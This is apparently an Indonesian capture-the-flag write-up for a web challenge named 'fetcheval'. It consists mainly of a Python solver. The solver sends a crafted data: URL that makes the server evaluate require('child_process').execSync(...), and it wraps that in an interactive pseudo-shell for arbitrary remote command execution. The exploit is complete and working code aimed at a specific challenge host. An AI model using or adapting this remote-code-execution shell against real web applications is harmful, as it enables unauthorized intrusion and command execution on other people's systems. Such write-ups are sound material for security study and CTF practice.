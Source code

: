 ## fetcheval

![](Pasted%20image%2020221222214636.png)

untuk solusi pertama kita bisa menggunakan `data:localhost/html,<div id='eval'>Eval</div>` untuk mendapatkan rce
solver:

```python
import requests
import re
from html import unescape
from readline import redisplay

URL = "https://fetcheval.hackthesystem.pro/"


def req(x, url=URL):
    res = requests.post(url, data={
        "url": x,
    })
    return res.text


def parse_output(x):
    x = re.search(r"(?<=textarea disabled>).*?(?=</textarea>)", x, re.DOTALL)
    x = x.group(0)
    x = unescape(x)
    return x


def pseudo_shell(x: str):
    x = x.replace("'", "\\'")
    res = req(f"""data:localhost/html,
<div id='eval'>
    require('child_process').execSync('{x}')
</div>""")
    txt = parse_output(res)
    return txt
    
if __name__ == "__main__":
    while (True):
        cmd = input("$ ")
        redisplay()
        txt = pseudo_shell(cmd)
        print(txt)
```
